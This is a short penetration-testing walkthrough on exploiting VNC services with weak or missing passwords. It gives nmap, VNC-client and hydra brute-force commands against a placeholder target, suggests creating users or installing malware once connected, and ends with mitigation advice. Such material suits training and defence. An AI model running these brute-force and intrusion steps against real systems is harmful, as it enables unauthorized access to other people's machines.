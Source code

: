 Full Walkthrough: VNC Weak Authentication
Theory & Background
Virtual Network Computing (VNC) provides a graphical desktop sharing system. A severe misconfiguration is running VNC without a password or with a weak, easily guessable password. Furthermore, older versions often transmit passwords and data in plaintext, making them susceptible to sniffing.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p5900 -sV --script vnc-info,vnc-title <target_ip>
Expected Result: Nmap will identify the VNC service (e.g., RealVNC, TightVNC) and may even retrieve the desktop title, indicating no authentication.

2. Exploitation
bash
# 1. Connect using a VNC client (like xtightvncviewer)
xtightvncviewer <target_ip>:5900

# If it connects without a prompt, you have full control.
# If it prompts for a password, you need to brute-force it.

# 2. Brute-forcing with hydra
# Note: VNC brute-forcing is slow. The password is often weak.
hydra -P /usr/share/wordlists/rockyou.txt <target_ip> vnc -t 4

# 3. Once connected, you have a live graphical session.
# You can interact with the desktop, open terminals, and install malware.
What to do: Interact with the desktop as if you were physically at the machine. Create new users, open command prompts, and browse files.

3. Mitigation
Password Policy: Always set a strong, complex password for VNC services.

Encryption: Never use raw VNC over the internet. Always tunnel the connection through SSH (ssh -L 5900:localhost:5900 user@target_ip) or use VNC variants that support native encryption.

Access Control: Use a firewall to restrict VNC access to specific management IP addresses. Consider using a VPN for access.

Alternative: Evaluate if SSH with X11 forwarding (ssh -X) can meet your needs instead of a full VNC setup.

